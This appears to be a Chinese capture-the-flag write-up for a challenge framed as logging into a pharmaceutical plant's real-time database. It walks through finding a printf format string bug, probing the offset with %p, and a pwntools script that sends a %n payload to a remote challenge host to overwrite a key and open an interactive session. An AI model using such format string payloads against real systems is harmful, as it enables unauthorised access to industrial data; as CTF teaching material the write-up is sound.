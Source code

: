 # 实时数据监测

> 题目描述：小A在对某家医药工厂进行扫描的时候，发现了一个大型实时数据库系统。小A意识到实时数据库系统会采集并存储与工业流程相关的上千节点的数据，只要登录进去，就能拿到有价值的数据。小A在尝试登陆实时数据库系统的过程中，一直找不到修改登录系统key的方法，虽然她现在收集到了能够登陆进系统的key的值，但是只能想别的办法来登陆。

## Writeup

1. 使用IDA分析，发现imagemagic()函数中的printf(format)存在格式化字符串漏洞。

2. 使用gdb动态调试，输入一连串[%p][%p][%p][%p][%p][%p][%p][%p]...以确定偏移量，为16。

3. POC的关键代码是： `%35795746x%16$n`。

4. POC：
```python
import pwn

pwn.context(arch='i386', os='linux')

#p = pwn.process('./9926c1a194794984978011fc619e3301')
p = pwn.remote('220.249.52.133', 30149)

key_addr = 0x804A048
payload = b'%35795746x%16$n\x00' + pwn.p32(key_addr)    # %x：写入35795746个字符，$16$n：偏移量为16，payload = arg1 + arg2（中间用\x00隔开）

p.sendline(payload)

p.interactive()
```